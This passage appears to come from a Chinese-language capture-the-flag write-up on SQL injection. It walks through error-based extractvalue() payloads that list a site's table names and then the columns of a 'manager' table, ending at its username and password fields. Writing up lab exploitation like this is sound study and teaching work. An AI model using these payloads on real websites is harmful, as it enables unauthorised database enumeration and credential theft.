   ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- 
  ```

  ![image-20210416214713985](/images/posts/ctf/image-20210416214713985.png)

  选择`manager`表

- 查属性名

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- 
  ```

  ![image-20210416215026690](/images/posts/ctf/image-20210416215026690.png)

  终于看到username和password了
